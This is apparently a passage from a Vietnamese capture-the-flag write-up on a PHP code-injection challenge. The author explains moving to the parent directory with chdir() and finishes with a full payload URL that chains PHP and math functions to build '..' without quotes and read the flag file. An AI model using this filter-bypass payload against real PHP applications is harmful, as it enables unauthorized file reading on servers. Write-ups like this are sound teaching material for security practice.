 ![](https://cdn-images-1.medium.com/max/1100/1*jMoo33DJBg9VljZcJkUSuw.png)

Mà flag của mình đâu rồi

Suy nghĩ 1 chút thì mình nó chỉ show content của parent dir thôi chứ mình chưa ở
parent dir

dùng chdir() thì chắc được vì mình đã có `..` rồi nên nhưng làm sao đọc flag?

![](https://cdn-images-1.medium.com/max/1100/1*xDuxfkcofnb3_hs55F6yDA.png)

thế lực siêu nhiên nào đó lại giúp mình khi chdir() return về boolean và nó là
`true == 1` . Thì sao nhỉ :3 nghĩa là mình đang có mặt ở `..` và chỉ cần dùng
phép toán mà thần linh đã ban cho tính từ exp(assert()) == chdir(‘..’)

![](https://cdn-images-1.medium.com/max/1100/1*5X8ukW4HbaxF7R5gIT8BnA.png)

http://45.76.181.81/?code=readfile(end(scandir(chr(strrev(floor(rad2deg(tan(sin(round(chdir(next(scandir(chr(strrev(floor(rad2deg(tan(sin(round(exp(assert())))))))))))))))))))));
